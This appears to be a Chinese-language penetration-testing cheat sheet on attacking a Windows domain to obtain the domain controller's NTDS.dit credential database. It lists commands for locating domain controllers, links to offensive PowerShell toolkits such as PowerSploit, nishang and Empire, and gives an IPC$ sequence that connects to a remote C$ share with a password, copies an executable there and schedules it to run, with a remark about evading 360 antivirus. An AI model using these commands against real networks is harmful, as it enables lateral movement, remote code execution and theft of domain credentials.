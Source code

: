 域渗透——获得域控服务器的 NTDS.dit 文件

> http://www.4hou.com/technology/10573.html

### dc 定位

> nltest dclist:xx.xx
>
> net time /domain
>
> systeminfo 中的 domain
>
> ipconfig /all 中的 DNS Suffix Search List
>
> 扫描53端口，找 dns 位置
>
> set log
>
> net group "domain controllers" /domain
>
> PowerView Get-NetDomainController

PowerView 地址:

> https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon

### windows log

微软第三方信息收集工具 LogParser.exe psloglist.exe 等

### powerhsell 神器

nishang

> https://github.com/samratashok/nishang

spn扫描

> https://github.com/nullbind/Powershellery/tree/master/Stable-ish

PowerSploit

> https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon

针对ps的Empire

> https://github.com/EmpireProject/Empire

### ipc$

> D:>net use \\\192.168.1.254\c$ "pwd" /user:user   //连接192.168.1.254的IPC$共享，用unc路径
>
> D:>copy srv.exe \\\192.168.1.254\c$ //复制本地 srv.exe 到C根目录
>
> D:>net time \\\192.168.1.254     //查时间
>
> D:>at　\\\192.168.1.254 10:50 srv.exe //用at命令在10点50分启动 srv.exe (这里360会拦截)
>
> D:>net use \\\192.168.1.254\c$ /del 
